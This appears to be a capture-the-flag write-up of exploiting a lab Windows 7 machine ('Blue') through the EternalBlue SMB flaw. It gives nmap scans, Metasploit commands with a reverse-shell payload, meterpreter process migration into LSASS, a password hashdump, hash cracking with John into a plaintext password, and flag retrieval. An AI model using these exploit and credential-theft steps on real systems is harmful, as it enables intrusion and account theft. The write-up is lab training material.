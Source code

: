 # Blue

## Machine info





## Ports Scan

```bash
nmap -T4 -A -p- --min-rate 1000 10.10.253.11 -oN port_scan.txt

Nmap scan report for 10.10.253.11
Host is up (0.036s latency).
Not shown: 65526 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds  Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ms-wbt-server Microsoft Terminal Service
| ssl-cert: Subject: commonName=Jon-PC
| Not valid before: 2025-07-28T14:22:00
|_Not valid after:  2026-01-27T14:22:00
| rdp-ntlm-info: 
|   Target_Name: JON-PC
|   NetBIOS_Domain_Name: JON-PC
|   NetBIOS_Computer_Name: JON-PC
|   DNS_Domain_Name: Jon-PC
|   DNS_Computer_Name: Jon-PC
|   Product_Version: 6.1.7601
|_  System_Time: 2025-07-29T14:23:34+00:00
|_ssl-date: 2025-07-29T14:23:40+00:00; -2s from scanner time.
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49158/tcp open  msrpc         Microsoft Windows RPC
49160/tcp open  msrpc         Microsoft Windows RPC
Device type: general purpose
Running: Microsoft Windows 2008|7|Vista|8.1
OS CPE: cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_vista cpe:/o:microsoft:windows_8.1
OS details: Microsoft Windows Vista SP2 or Windows 7 or Windows Server 2008 R2 or Windows 8.1
Network Distance: 2 hops
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-07-29T14:23:34
|_  start_date: 2025-07-29T14:21:58
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Jon-PC
|   NetBIOS computer name: JON-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2025-07-29T09:23:34-05:00
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
|_clock-skew: mean: 59m57s, deviation: 2h14m09s, median: -2s
|_nbstat: NetBIOS name: JON-PC, NetBIOS user: <unknown>, NetBIOS MAC: 02:18:ab:86:6d:ff (unknown)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

```



## SMB vuln enumeration

```bash
nmap -p 445 --script vuln 10.10.253.11

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-054: false
```

The host is vulnerable to ms17-010 vulnerability called EternalBlue.



## EternalBlue with Metasploit

Start metasploit and search the modules for thid vulnerability.

```bash
service postgresql start && msfconsole

search ms17-010
```

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Use the first module which we found.

```bash
use exploit/windows/smb/ms17_010_eternalblue
```

Set the confs and run the exploit

```bash
set RHOSTS 10.10.253.11
set payload windows/x64/shell/reverse_tcp
exploit
```

The exploit was success!

Now we can upgrade our shell into meterpreter shell

```
session -u 1
```

Then, that we have a meterpreter session go to PrivEsc part



## PrivEsc

We are already NT AUTHORITY/SYSTEM but we can migrate our process to obtain all rights.

```bash
ps
migrate LSASS_PID
```

Now we can use the HASHDUMP module of meterpreter to dump all hash in the machine.

```
hashdump

# output 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```

Copy the jon row into a file and try to crack it with John the ripper.

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash --format=NT

# output
alqfna22         (Jon)  
```



## Flags

Flag1? _This flag can be found at the system root._&#x20;

```powershell
cd C:\
more flag1.txt
```



Flag2? _This flag can be found at the location where passwords are stored within Windows._

```powershell
cd C:\Windows\System32\config
more flag2.txt
```



flag3? _This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved._&#x20;

```powershell
cd C:\Users\Jon\Documents
more flag3.txt
```
